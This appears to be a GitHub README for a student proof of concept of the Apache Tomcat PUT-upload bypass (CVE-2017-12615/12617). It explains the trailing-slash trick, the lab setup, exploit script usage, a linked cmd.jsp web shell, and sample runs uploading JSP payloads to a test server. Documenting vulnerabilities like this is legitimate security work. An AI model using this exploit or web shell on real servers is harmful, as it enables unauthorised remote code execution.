

# CVE-2017-12615 & CVE-2017-12617

We present the PoC for CVE-2017-12615 and CVE-2017-12617

They are essentially the same vulnerability, except that CVE-2017-12615 was not properly mitigated and still remained in Apache Tomcat 7.0.81 hence it gave rise to CVE-2017-12617.

`Vulnerable versions`:
Apache Tomcat versions 9.0.0.M1 to 9.0.0, 8.5.0 to 8.5.22, 8.0.0.RC1 to 8.0.46 and 7.0.0 to 7.0.81 with HTTP PUTs enabled

It is possible for any unauthorised user to upload JSP files through PUT method. The JSP file can then be accessed on the server to get Remote Code Execution. Although a user is not allowed to upload JSP files by PUT method, the check can be bypassed by appending a '/' to the file name. For example, /1.jsp/ will fail the JSP extension check and 1.jsp will be uploaded on the server. 

## The Vulnerability

When `readonly` is set to `false`, it is possible for any unauthorised user to upload JSP files on the server by simply appending '/' in the file name.

This is an issue in the way Tomcat's file API works. The normalised file name does not strip the '/' at the end of the file name before checking for the file type which allows us to bypass the JSP check and upload the file.

This can result in RCE by uploading a suitable JSP shell page.
## Setup

An instance of Windows_Server-2019-English-Full-Base-2021.03.10 on AWS was setup as a remote machine running Apache Tomcat 7.0.81.

We need to allow PUT methods, so in `%CATALINA_HOME%\conf\web.xml`, the `readonly` parameter in Default was set to `false`

This allows the use of PUT method.



## Running PoC

The PoC is given [here](https://github.com/dishankgoel/InterIIT-NetworkSecurity/blob/master/CVE-2017-12615/exploit.py)

```
usage: exploit.py [-h] [-p PORT] [--ssl] (-f FILE | -c PAYLOAD) host

positional arguments:
  host                  Host name or IP

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Port of Tomcat server, default: 8080
  --ssl                 If server uses ssl
  -f FILE, --file FILE  JSP file to be uploaded
  -c PAYLOAD, --payload PAYLOAD
                        JSP payload to inject
```

There is a cmd.jsp present [here](https://github.com/dishankgoel/InterIIT-NetworkSecurity/blob/master/CVE-2017-12615/cmd.jsp) which can be used to run any command on the server. You can either upload this file or provide your own payload that can be uploaded.

`3.140.7.1` is the IP of the remote machine.

```python3 exploit.py -c '<% out.println("hello");%>' 3.140.7.1```
```
[*] Uploading JSP Payload
[*] Payload Uploaded Successfully!
[*] Access here: http://3.140.7.1:8080/1.jsp
[*] Response:
hello

```

```python3 exploit.py -f cmd.jsp 3.140.7.1```
```
[*] Uploading JSP Payload
[*] Payload Uploaded Successfully!
[*] Access here: http://3.140.7.1:8080/cmd.jsp
[*] Response:


<HTML><BODY>
Commands with JSP
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>

</pre>
</BODY></HTML>
```
